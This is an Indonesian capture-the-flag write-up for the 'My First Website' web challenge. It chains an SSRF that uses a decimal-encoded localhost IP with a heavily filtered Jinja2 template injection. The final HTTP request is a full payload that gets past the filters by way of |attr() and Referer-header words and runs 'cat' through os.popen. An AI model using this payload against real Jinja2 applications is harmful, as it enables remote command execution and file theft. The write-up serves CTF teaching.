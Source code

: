 # My First Website

Description:
```
Good Luck

Link: xxx
Author: daffainfo
```
### Cara Solve

* SSRF dengan menggunakan bilangan desimal (Untuk referensi bisa dibaca [disini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#bypass-using-a-decimal-ip-location))

* Kemudian diikuti dengan SSTI yang memiliki filter sangat banyak.

    * Untuk karakter `{{` bisa dibypass dengan `{%`

    * Dikarenakan tidak bisa menggunakan `__` dan `[]`, maka hala tersebut tetap bisa dibypass dengan `|attr()` (Hal tersebut bisa dilihat pada [notes](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#common-bypasses) ini)

    * Jika melihat dokumentasi [Jinja2](https://flask.palletsprojects.com/en/2.3.x/api/#flask.Request). Kita bisa membypass filter-filter tersebut menggunakan `request.referrer` karena jika kita menginput header `Referer` pada HTTP request, maka header `Referer` juga ditampilkan pada HTTP response

    * `.split().pop()` digunakan untuk mengakses word" yang diblock seperti `__import__`, etc.

## Final payload:
```
GET /?url=@2130706433:1337/environment?admin={%print(request|attr(request.referrer.split().pop(0))|attr(request.referrer.split().pop(1))|attr(request.referrer.split().pop(2))(request.referrer.split().pop(3))|attr(request.referrer.split().pop(2))(request.referrer.split().pop(4))(request.referrer.split().pop(5))|attr(request.referrer.split().pop(6))(request.referrer.split().pop(7))|attr(request.referrer.split().pop(8)))()%}%23/about/ HTTP/1.1
Host: example
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: max-age=0
Referer: application __globals__ __getitem__ __builtins__ __import__ os popen cat${IFS}/* read
```